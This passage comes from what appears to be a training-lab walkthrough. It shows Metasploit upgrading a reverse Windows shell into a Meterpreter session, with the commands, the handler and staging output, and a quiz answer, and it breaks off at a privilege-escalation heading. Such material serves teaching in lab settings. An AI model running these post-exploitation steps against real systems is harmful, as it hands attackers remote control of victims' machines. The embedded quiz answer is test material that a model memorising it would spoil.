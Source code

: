 ### Step 2: Configure the Module

Check the module options and set the session ID:

```bash
show options
sessions -l
```

**Sessions Output:**
```
Active sessions
===============

  Id  Name  Type               Information                                                                       Connection
  --  ----  ----               -----------                                                                       ----------
  1         shell x64/windows  Shell Banner: Microsoft Windows [Version 6.1.7601] -----                       10.10.14.15:4444 -> 10.10.10.40:49158 (10.10.10.40)
```

Set the session ID to convert our shell:

```bash
set SESSION 1
```

**Answer:** What option are we required to change? **SESSION**

### Step 3: Run the Module

Convert our basic shell to a Meterpreter session:

```bash
run
```

**Output:**
```
[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 10.10.14.15:4433 
[*] Sending stage (200262 bytes) to 10.10.10.40
[*] Meterpreter session 2 opened (10.10.14.15:4433 -> 10.10.10.40:49159) at 2024-01-15 10:37:15 +0000
[*] Stopping exploit/multi/handler
[*] Post module execution completed
```

Now interact with our new Meterpreter session:

```bash
sessions -i 2
```

### Step 4: Escalate to SYSTEM
